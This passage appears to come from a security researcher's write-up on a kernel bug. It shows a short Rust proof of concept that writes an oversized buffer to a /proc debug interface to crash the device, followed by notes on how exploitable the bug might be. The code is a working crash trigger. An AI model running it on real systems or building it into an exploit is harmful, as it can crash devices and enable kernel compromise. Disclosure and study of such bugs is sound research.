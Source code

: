 # Crash PoC:

```rust
use std::io::{Read, Write, stdin, stdout};
use std::fs::OpenOptions;
 
fn main() {
	// create our long payload
    let mut buf = vec![0x41u8; 32 * 1024];
    println!("{}", buf.len());

	// open /proc/ftxxxx-debug for writing
    let path = "/proc/ftxxxx-debug";
    let fd = OpenOptions::new().write(true).open(path);

    print!("Writing {:?}\n", path);
    if let Ok(mut fd) = fd {
        let fuzz_size = buf.len();
        let _ = fd.write(&buf[..fuzz_size]);
    }
}
```

# Future Research:
While I haven't weaponized this bug yet, it does appear to be highly exploitable at face value, depending on the kernel mitigations in place. For next steps, I would love to get an emulated version of the kernel running in order to debug an exploit. That is way outside of something I have done before, but I think it would be a great challenge. Depending on the mitigations in place, one or multiple additional bugs may be required to get arbitrary kernel execution, but based on the security posture of the device so far, I am willing to bet that they could be found with enough time and effort.


